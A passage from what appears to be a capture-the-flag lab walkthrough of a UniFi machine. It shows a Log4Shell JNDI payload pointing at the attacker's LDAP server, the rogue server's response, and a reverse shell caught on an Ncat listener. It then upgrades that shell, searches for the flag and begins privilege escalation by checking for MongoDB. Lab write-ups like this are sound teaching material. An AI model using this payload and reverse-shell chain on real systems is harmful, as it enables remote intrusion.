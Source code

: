 For example:

```
"remember":"${jndi:ldap://10.10.14.244:1389/o=tomcat}",
```

*Now we can click "send". After sending the request, a connection to our rogue server is received and the following message is shown.*

```
Sending LDAP ResourceRef result for o=tomcat with javax.el.ELProcessor payload
```

*Once we receive the output from the Rogue server, a shell spawns on our Ncat listener and we can upgrade the terminal shell using the following command:*

```
script /dev/null -c bash
```

Here is the output from my listener:

```
Ncat: Version 7.94SVN ( https://nmap.org/ncat )
Ncat: Listening on [::]:4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.129.96.149:45918.
bash: cannot set terminal process group (7): Inappropriate ioctl for device
bash: no job control in this shell
unifi@unified:/usr/lib/unifi$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
unifi@unified:/usr/lib/unifi$ 
```

*The above command will turn our shell into an interactive shell that will allow us to interact with the system more effectively. From here we can easily hunt for the user flag.*

```
find / -name user.txt 2>/dev/null
```

## Privilege Escalation

*The article states we can get access to the administrator panel of the UniFi application and possibly extract SSH secrets used between the appliances. First let's check if MongoDB is running on the target system, which might make it possible for us to extract credentials in order to login to the administrative panel.*

```
ps aux | grep mongo
```

Note: The ```aux``` in the ```ps aux``` command are options that control what information about running processes is displayed:

- ```a```: Displays processes from all users, not just your own.

- ```u```: Displays the processes in a user-oriented format, showing details like the username, CPU usage, memory usage, etc.
